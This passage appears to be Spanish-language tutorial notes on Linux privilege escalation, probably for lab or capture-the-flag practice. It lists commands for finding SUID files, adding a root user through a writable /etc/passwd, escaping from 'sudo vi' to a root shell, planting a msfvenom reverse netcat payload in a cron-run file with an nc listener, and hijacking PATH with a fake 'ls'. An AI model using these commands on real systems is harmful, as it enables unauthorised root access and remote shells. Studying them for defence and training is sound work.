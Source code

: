 Y la segunda, copiando el script y pegandolo en un archivo editado con nano o vi.

Despues solo tendremos que cambiar los permisos del archivo con un:
```s
chmod +x
```

### [](#header-3)Finding and Exploiting SUID Files
Para encontrar SUID files, podemos usar el comando que se utiliza en la herramienta LinEnum, que es el siguiente:
```s
find / -perm -u=s -type f 2>/dev/null
```
#### [](#header-4)Exploiting a writable /etc/passwd
Realmente es simple, si tenemos un archivo /etc/passwd grabable, podemos escribir una nueva entrada de línea de acuerdo con la fórmula anterior y crear un nuevo usuario.
Primero necesitamos una contrasena con el formato correcto y para esto, podemos usar el comando:
```s
openssl passwd -1 -salt [salt] [password]
```
#### [](#header-4)Escaping Vi Editor
Siempre que tenemos acceso al sistema, es buena idea ejecutar el comando 
```s
sudo -l
```
En este ejemplo, si nuestro usuario tiene permiso de ejecutar vi como administrador, sera posible abrir una shell con solamente ejecutar en las opciones:
```s
sudo vi
#Despues solo usamos las opciones
:!sh
```
Y vuala, nuestra shell con el usuario root estara disponible
#### [](#header-4) Exploiting Crontab
Esta tecnica consiste en tomar control de un archivo que se ejecute en el sistema en el cual tengamos permisos de escritura sobre este mismo.
Para encontrar los archivos que se ejecutan en automatico, podemos usar:
```s
cat /etc/crontab
```
En este ejemplo, agregaremos al archivo que se ejecuta automaticamente la salida del payload generado con el comando:
```s
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```
En la maquina atacante solo tendremos que ejecutar:
```s
nc -lvnp 8888
```
#### [](#header-4) Exploiting PATH Variable 
Esta tecnica consiste en explotar la variable de entorno del PATH, la cual se puede visualizar con el comando:
```s
echo $PATH
```
Para este ejemplo, realizaremos los pasos siguientes:
1. Cambiarnos al directorio /tmp o a alguno con permisos de escritura.
```s
find / -writable 2>/dev/null
```
2. Crear un archivo llamado "ls"
```s
touch ls
```
3. Escribir dentro del archivo el comando que ejecutaremos, el cual sera:
```s
echo "/bin/bash" > ls
```